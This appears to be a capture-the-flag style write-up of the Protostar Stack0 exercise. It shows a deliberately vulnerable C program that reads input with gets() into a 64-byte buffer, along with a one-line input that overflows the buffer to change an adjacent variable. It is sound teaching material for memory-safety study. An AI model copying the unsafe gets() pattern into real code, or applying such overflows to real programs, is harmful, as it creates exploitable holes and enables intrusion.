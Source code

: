 #### Protostar Stack0
##### About

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.  
  
This level is at /opt/protostar/bin/stack0  

##### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

The value of the parameter "int modified" can be changed by overflowing char buffer[64].  
  
Because gets() is an unsafe function.

##### Solution
```
$ python -c "print 'A'*65" | ./stack0
```

##### My solution
```
python exploit.py | ./stack0
```

##### Reference
<https://github.com/Wins0n/Exploit-Exercises_ProtoStar/blob/master/protostar_part1.md>
